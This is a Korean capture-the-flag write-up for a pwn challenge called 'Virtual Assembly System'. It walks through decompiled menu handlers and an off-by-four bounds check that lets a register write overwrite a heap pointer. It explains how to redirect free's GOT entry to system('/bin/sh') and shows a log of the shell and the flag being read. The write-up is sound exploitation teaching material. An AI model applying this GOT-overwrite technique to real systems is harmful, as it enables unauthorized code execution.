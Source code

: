 ## solve

#### menu
```
[1] mov dword register, register
[2] mov dword memory, register
[3] mov dword register, memory
[4] mov dword register, $data
[5] mov qword register, register
[6] mov qword memory, register
[7] mov qword register, memory
[8] mov qword register, $data
[9] sub register, register
[10] sub register, memory
[11] sub register, $data
[12] add register, register
[13] add register, memory
[14] add register, $data
[15] push $string
[16] push dword $data
[17] pop $string
[18] pop dword $data
[19] int 0x80
[20] Exit..
```
</br>

#### 8번 메뉴
``` c
//8번 메뉴
case 8:
  write(1, "Input dest : ", 0xDu);
  read(0, &s, 0x14u);
  while ( strcmp((&s1)[4 * v2], &s) )
  {
    if ( ++v2 > 7 )
    {
      write(1, "Can't find dest\n", 0x10u);
      return *MK_FP(__GS__, 20) ^ v10;
    }
  }
  if ( v2 <= 3 )
  {
    write(1, "You can only use 64-bit registers\n", 0x22u);
    return *MK_FP(__GS__, 20) ^ v10;
  }
  write(1, "Input data : ", 0xDu);
  __isoc99_scanf("%llu", &v6);
  sub_80488B6(8 * v2 + 134530304, v6);
  continue;  
```

* 8번 메뉴를 통해 rdx에 값을 저장할 수 있다. 리틀엔디안방식으로 저장된다.

</br>

#### 6번 메뉴
``` c
//6번 메뉴
case 6:
  write(1, "Input dest : ", 0xDu);
  read(0, &s, 0x14u);
  v4 = strtoul(&s, 0, 16);
  if ( v4 < (unsigned int)&unk_804C0E0 || v4 > (unsigned int)&unk_804C4DC )
  {
    write(1, "Out-Of-Bounds!!\n", 0x10u);
    exit(0);
  }
  write(1, "Input source : ", 0xFu);
  read(0, &s2, 0x14u);
  while ( strcmp((&s1)[4 * v3], &s2) )
  {
    if ( ++v3 > 7 )
    {
      write(1, "Can't find source\n", 0x12u);
      return *MK_FP(__GS__, 20) ^ v10;
    }
  }
  if ( v3 <= 3 )
  {
    write(1, "You can only use 64-bit registers\n", 0x22u);
    return *MK_FP(__GS__, 20) ^ v10;
  }
  sub_8048858(v4, &dword_804C500[2 * v3]);
  continue;
```

* 여기서 레지스터에 있는 값을 메모리에 저장한다.
마찬가지로 리틀엔디안 방식으로 저장이된다.

</br>

## Vulnerabilities
```
if ( v4 < (unsigned int)&unk_804C0E0 || v4 > (unsigned int)&unk_804C4DC )
```
* 6번 메뉴에서 범위를 검사하는데 0x804C4DC를 넘으면 안된다.</br>

```
buf = malloc(0x100u);
ptr = malloc(0x400u);
dword_804C4E0 = buf;
dword_804C4E4 = ptr;
```

* 바로 뒤의 804C4e0에는 buf의 주소인 힙의 주소가 저장되어 있는데, 만약 6번 메뉴에서 memory의 주소가 804C4DC로 지정을 하게되면 , 리틀엔디안 방식으로 edx가 아닌 rdx를 이용하기 때문에 804C4e0를 overwrite 할 수 있다.

* 따라서 804C4e0에 free함수의 got주소를 overwrite하고 난 뒤, modify메뉴를 이용해서 buf의 값은 system함수의 주소로, ptr의 값은 '/bin/sh\x00' 으로 수정한다. 그리고 종료를 하게 되면 free(ptr)이 호출되고, system('/bin/sh\x00') 이 호출된다.

</br>
## Result
```
~/machome/ctf/doubles_ctf/pwn-400(master*) » python exploit.py k                                     stitch@certis
 OK..
[ Virtual Assembly System ]
[1] Show Examples
[2] Generate Assembly
[3] Modify Name and Description
[4] Help
[5] Exit
-> $ 5
Bye Bye~~
\x00$ id
uid=1002(prob02) gid=1002(prob02) groups=1002(prob02)
$ ls /home/prob02
asm
flag
$ cat /home/prob02/flag
flag{4sm_1s_s0_h4rd}
$
```
